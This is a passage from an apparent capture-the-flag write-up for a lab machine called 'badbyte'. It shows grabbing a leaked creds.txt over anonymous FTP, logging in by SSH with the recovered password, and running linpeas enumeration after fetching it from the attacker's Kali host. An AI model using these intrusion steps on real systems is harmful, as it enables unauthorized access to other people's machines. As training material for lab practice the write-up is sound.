```console
drwxr-xr-x    2 ftp      ftp          4096 Dec 08 11:28 .
drwxr-xr-x    2 ftp      ftp          4096 Dec 08 11:28 ..
-rw-r--r--    1 ftp      ftp           166 Dec 08 11:28 creds.txt
226 Directory send OK.
ftp> get creds.txt
local: creds.txt remote: creds.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for creds.txt (166 bytes).
226 Transfer complete.
166 bytes received in 0.00 secs (180.7239 kB/s)
```
seem link someone leave creds.txt on ftp, get the file to your kali and examine it.
```console
$ cat creds.txt            
I always forget my password.
Let's store it here up high so no one can find it.
I hope cth will be ok with that \_(ツ)_/
errorcauser:______________@@3434
```

# foothold
let's **ssh** to the server using *errorcauser* cred that we obtains from ftp server.
```console
$ ssh errorcauser@$IP
errorcauser@badbyte:~$ 
```
we are in!! the next step is enumerate the server and see what have `errorcauser` permission to do.
- sudo premission
```console
errorcauser@badbyte:~$ sudo -l
[sudo] password for errorcauser: 
Sorry, user errorcauser may not run sudo on badbyte.
```
nope errorcauser is locked. There are many place too look. The more effective where is running enumscript such as, `linpeas.sh`. I ran python httpserver module on my kali and use `wget` to get `linpeas`.


here is some juicy information from `linpeas.sh`
```console
[+] Cleaned processes
root       974  0.0  2.3 327128 11712 ?        Ss   16:15   0:00 /usr/sbin/apache2 -k start
cth        978  0.0  1.4 331528  7120 ?        S    16:15   0:00  \_ /usr/sbin/apache2 -k start


[+] Active Ports
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#open-ports
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:80            0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -   

[+] Users with console
cth:x:1000:1000:cth:/home/cth:/bin/bash
errorcauser:x:1001:1001::/home/errorcauser:/bin/bash
root:x:0:0:root:/root:/bin/bash

[+] All users & groups
uid=0(root) gid=0(root) groups=0(root)
uid=1000(cth) gid=1000(cth) groups=1000(cth),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
uid=1001(errorcauser) gid=1001(errorcauser) groups=1001(errorcauser)
```